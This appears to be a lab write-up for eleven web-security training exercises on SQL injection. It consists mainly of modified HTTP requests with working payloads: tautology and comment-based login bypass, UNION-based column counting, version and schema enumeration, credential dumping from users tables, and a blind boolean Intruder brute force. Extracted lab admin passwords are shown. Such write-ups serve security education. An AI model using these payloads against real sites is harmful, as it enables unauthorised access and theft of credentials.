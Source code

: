 # Lab 1

Adding the ' OR 1=1-- in the URL to inject an always True statement

Edit URL from:
```http
GET /filter?category=Accessories HTTP/1.1
Host: ac961fd91ece931980d47ba200d90057.web-security-academy.net
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close
```
to:
```http
GET /filter?category=Accessories'+OR+1=1-- HTTP/1.1
Host: ac961fd91ece931980d47ba200d90057.web-security-academy.net
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close
```

# Lab 2

Adding the '-- in the params to comment out the password portion of the SQL query

Edit request from:
```http
POST /login HTTP/1.1
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close

csrf=RHrNxi61GKDnF4SDlt8JvyCbuv3hOcs2&username=administrator&password=1234
```
to:
```http
POST /login HTTP/1.1
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close

csrf=RHrNxi61GKDnF4SDlt8JvyCbuv3hOcs2&username=administrator'--&password=1234
```

# Lab 3

Use NULL row injection to find the number of columns - if we have the exact number of NULL values

then we will get this NULL row in our database (in the result of the query)
Edit request from:
```http
GET /filter?category=Accessories HTTP/1.1
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close
```
to:
```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close
```

# Lab 4

Edit:
```http
GET /filter?category=Pets HTTP/1.1
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close
```
To:
```http
GET /filter?category=Pets'+UNION+SELECT+NULL,%27MWKnFL%27,NULL-- HTTP/1.1
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close
```

# Lab 5

Edit:
```http
GET /filter?category=Lifestyle HTTP/1.1
```
To:
```http
GET /filter?category=Lifestyle'+UNION+SELECT+username,password+FROM+users-- HTTP/1.1
```

username:password
```
administrator
l6uz3b1kg5ibz0rbx37u
```

# Lab 6

Edit:
```http
GET /filter?category=Gifts HTTP/1.1
```
To:
```http
GET /filter?category=Gifts'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- HTTP/1.1
```

username:password
```http
administrator
8lkagrjnf7f9uhl98o2y
```

# Lab 7

Edit:
```http
GET /filter?category=Accessories HTTP/1.1
```
To:
```http
GET /filter?category=Accessories'+UNION+SELECT+banner,NULL+FROM+v$version-- HTTP/1.1
```


# Lab 8

Edit:
```http
GET /filter?category=Accessories HTTP/1.1
```
To:
```http
GET /filter?category=Accessories'+UNION+SELECT+@@version,NULL--+ HTTP/1.1
```

# Lab 9

Inject to show all the TABLE_NAME of the tables in order to find potential table that holds 

the username and passwords

```http
GET /filter?category=Accessories'+UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables--+ HTTP/1.1
```
users_cgllpy looks interesting, we list the table's columns with:
```http
GET /filter?category=Accessories'+UNION+SELECT+COLUMN_NAME,NULL+FROM+information_schema.columns+WHERE+table_name+=+'users_cgllpy'--+ HTTP/1.1
```
And we see two interesting columns:

- username_tvwizq
- password_qfjyhg

We query this table to get all the values in this columns:
```http
GET /filter?category=Accessories'+UNION+SELECT+username_tvwizq,password_qfjyhg+FROM+users_cgllpy--+ HTTP/1.1
```
Finally we got:

```
administrator
ou80z1p7ex2o3679lp3l
```

# Lab 10

List tables in Oracle SQL
```http
GET /filter?category=Accessories'+UNION+SELECT+COLUMN_NAME,NULL+FROM+all_tab_columns+WHERE+table_name+=+'USERS_ACHAXI'-- HTTP/1.1
```

And we get the column names:
```
USERNAME_RONKKR
PASSWORD_XPIZRN
```

We query this table to get all the values in this columns:
```http
GET /filter?category=Accessories'+UNION+SELECT+USERNAME_RONKKR,PASSWORD_XPIZRN+FROM+USERS_ACHAXI--+ HTTP/1.1
```

And we get:
```
administrator
382soutw7f69x1d1bto7
```

# Lab 11

Create a Intruder - Cluster Bomb Attack with this packet:
```http
GET /filter?category=Accessories HTTP/1.1
Host: acd71f5f1f0865218092196800e800d6.web-security-academy.net
Cookie: TrackingId=RTagNzceoYMk1rrX'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username+=+'administrator'),+§offset§,+1)+=+'§value§; session=EDEHpeoxYbli8e7Cx8QabKX6afFK11iK
...
Accept-Language: en-US,en;q=0.9,he-IL;q=0.8,he;q=0.7
Connection: close
```
Make sure you add the "Grep" match and add the phrase "Welcome Back!"

The first payload set is the offsets - 1-30 and the second payload set is brute force chars

Attack should execute successfully with the correct chars per offset (filter with the Welcome Back! message

